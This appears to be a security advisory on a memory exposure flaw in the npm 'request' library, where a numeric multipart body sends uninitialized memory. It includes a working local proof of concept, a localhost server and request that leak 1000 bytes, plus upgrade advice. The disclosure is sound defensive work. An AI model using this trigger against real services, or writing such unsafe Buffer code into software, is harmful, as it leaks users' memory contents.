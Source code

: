 ## Overview
[`request`](https://www.npmjs.com/package/request) is a simplified http request client.
A potential remote memory exposure vulnerability exists in `request`. If a `request` uses a multipart attachment and the _body type_ option is `number` with value X, then X bytes of uninitialized memory will be sent in the body of the request.

Note that while the impact of this vulnerability is high (memory exposure), exploiting it is likely difficult, as the attacker needs to somehow control the body type of the request. One potential exploit scenario is when a request is composed based on JSON input, including the body type, allowing a malicious JSON to trigger the memory leak.

### Details
Constructing a `Buffer` class with integer `N` creates a `Buffer`
of length `N` with non zero-ed out memory.
**Example:**
```
var x = new Buffer(100); // uninitialized Buffer of length 100
// vs
var x = new Buffer('100'); // initialized Buffer with value of '100'
```

Initializing a multipart body in such manner will cause uninitialized memory to be sent in the body of the request.

#### Proof of concept
```javascript
var http = require('http')
var request = require('request')

http.createServer(function (req, res) {
  var data = ''
  req.setEncoding('utf8')
  req.on('data', function (chunk) {
    console.log('data')
    data += chunk
  })
  req.on('end', function () {
    // this will print uninitialized memory from the client
    console.log('Client sent:\n', data)
  })
  res.end()
}).listen(8000)

request({
  method: 'POST',
  uri: 'http://localhost:8000',
  multipart: [{ body: 1000 }]
},
function (err, res, body) {
  if (err) return console.error('upload failed:', err)
  console.log('sent')
})
```

## Remediation
Upgrade `request` to version 2.68.0 or higher.

If a direct dependency update is not possible, use [`snyk wizard`](https://snyk.io/documentation/#wizard) to patch this vulnerability.

## References
- [Github PR](https://github.com/request/request/pull/2018)
- [Blog: Node Buffer API fix](https://github.com/ChALkeR/notes/blob/master/Lets-fix-Buffer-API.md#previous-materials)
- [Blog: Information about Buffer](https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md)
